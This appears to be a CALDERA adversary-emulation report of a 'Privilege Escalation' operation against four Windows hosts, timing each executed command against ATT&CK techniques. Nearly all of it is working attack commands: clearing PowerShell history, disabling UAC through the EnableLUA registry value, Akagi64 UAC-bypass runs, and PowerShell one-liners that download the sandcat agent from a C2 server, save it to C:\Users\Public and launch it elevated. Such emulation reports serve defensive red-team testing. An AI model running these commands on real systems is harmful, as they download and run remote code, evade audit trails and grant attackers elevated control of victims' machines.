

Privilege Escalation
====================

# CALDERA Operation Report

**Operation:** Privilege Escalation **Start:** 2024-09-13T17:39:39Z **Adversary:** You Shall (Not) Bypass
# Hosts Attacked

|Host|User|Beachhead Cmd|PID|Parent PID|IPs|C2 Server|
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|ACME-HH-ZYQ|ACME\grantj|splunkd.exe|3872|4840|172.31.45.222|http://172.31.10.226:8888|
|ACME-HH-EUO|ACME\grantj|splunkd.exe|1052|2004|172.31.41.178|http://172.31.10.226:8888|
|ACME-WS-PLU|ACME\grantj|splunkd.exe|1116|8312|172.31.11.139, 172.25.240.1|http://172.31.10.226:8888|
|ACME-HH-ESO|ACME\grantj|splunkd.exe|8376|8992|172.31.39.111|http://172.31.10.226:8888|

# Execution Timeline

**[LINK] ACME-HH-ZYQ (kwmxux)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 2304

**Time:** 2024-09-04T03:18:40Z → 2024-09-04T03:18:40Z

**[LINK] ACME-HH-EUO (acpuoe)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 4324

**Time:** 2024-09-13T17:10:22Z → 2024-09-13T17:10:22Z

**[LINK] ACME-WS-PLU (hkrmxr)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 8504

**Time:** 2024-09-13T17:12:11Z → 2024-09-13T17:12:12Z

**[LINK] ACME-HH-ESO (nowkww)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 10164

**Time:** 2024-09-13T17:15:40Z → 2024-09-13T17:15:40Z

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force`

**Description:** Set a registry key to allow UAC bypass

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 5212

**Time:** 2024-09-13T17:39:40Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe`

**Description:** Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 3228

**Time:** 2024-09-13T17:40:21Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"`

**Description:** UIPI bypass with uiAccess application

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 8740

**Time:** 2024-09-13T17:42:29Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;`

**Description:** Bypass user account controls - medium

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 8132

**Time:** 2024-09-13T17:44:10Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force`

**Description:** Set a registry key to allow UAC bypass

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Success`

**PID:** 6508

**Time:** 2024-09-13T17:40:17Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe`

**Description:** Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 5924

**Time:** 2024-09-13T17:41:55Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"`

**Description:** UIPI bypass with uiAccess application

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 6996

**Time:** 2024-09-13T17:43:52Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;`

**Description:** Bypass user account controls - medium

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 3316

**Time:** 2024-09-13T17:45:27Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force`

**Description:** Set a registry key to allow UAC bypass

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Success`

**PID:** 5012

**Time:** 2024-09-13T17:39:52Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe`

**Description:** Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 920

**Time:** 2024-09-13T17:41:56Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"`

**Description:** UIPI bypass with uiAccess application

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 8300

**Time:** 2024-09-13T17:43:25Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;`

**Description:** Bypass user account controls - medium

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 5432

**Time:** 2024-09-13T17:45:29Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force`

**Description:** Set a registry key to allow UAC bypass

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 6172

**Time:** 2024-09-13T17:40:18Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe`

**Description:** Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 9068

**Time:** 2024-09-13T17:42:19Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"`

**Description:** UIPI bypass with uiAccess application

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Success`

**PID:** 8324

**Time:** 2024-09-13T17:42:55Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;`

**Description:** Bypass user account controls - medium

**Technique:** Abuse Elevation Control Mechanism: Bypass User Access Control

**ATT&CK:** [T1548.002](https://attack.mitre.org/techniques/T1548/002)

**Status:** `Failed`

**PID:** 3188

**Time:** 2024-09-13T17:45:39Z → N/A

